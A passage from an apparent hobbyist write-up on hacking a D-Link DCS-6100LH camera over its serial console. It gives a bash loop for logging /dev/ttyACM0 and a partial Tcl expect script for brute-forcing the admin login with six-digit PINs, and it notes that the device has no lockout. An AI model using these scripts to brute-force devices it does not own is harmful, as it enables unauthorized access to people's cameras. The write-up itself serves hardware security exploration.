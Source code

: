#### STdin/STdout 

* We read serial console with a while loop and writing to a file, with some simple bash tricks without using screen or other tools, we can write to file and grep what we want as we want, see below:

* Script for read serial communication

```sh
#!/bin/bash

while true; 
    do tty=/dev/ttyACM0
    exec 4<$tty 5>$tty
    stty -F $tty 115200 -echo >&5;
    read r <&4;
    echo "$r"; 
done |tee dc_6200lh.txt
```

* The while loop creates a 'monitor' for the serial communication. If you wanna bruteforce the login just for fun then then we want to see what happens and thereforce its the perfect way to go for see what is going on another window, however it's an awesome way to read serial stdin without using more advanced languages for this kind of tasks, below is an example how we can could use expect for a bruteforce script:


```tcl
set baud 115200
if { $argc >= 1 } {
 set tty [lindex $argv 0]
}
if { $argc >= 2 } {
 set baud [lindex $argv 1]
}
spawn screen /dev/ttyACM0 $baud
send \r
expect {
      "DCS-6100LH login: " {
           send admin\r
           expect "Password: "
           send $pin-codes\r
       }
       "#" 
    }
interact
```

..since we know the pin-code is a length of six numbers we could generate numbers from 00000-999999 in a simple bash for loop, however since the device in serial replies within milliseconds (this is often set on the other side but not on this dlink camera it seems, it has no time limit set for failed passwords) I would hack this pin-code within few minutes, ~10minutes max with my slow CPU (**Intel(R) Core(TM) i7-5600U CPU @ 2.60GHz**)

My CPU generates 000000 to 999999 in 26 seconds, we want to stay on the safe side when we bruteForcing so a timeout is needed for not miss any true value when pincode is found, a timeout every 500ms for every failed login by using 'set timeout X' in the code snippet above would be perfect for not fuck up the exit code so we know when the value is true and the pin code is found, however see below and copy and paste and if **you** have some basic knowledge about tcl and shell, you have everything you need to getting started:
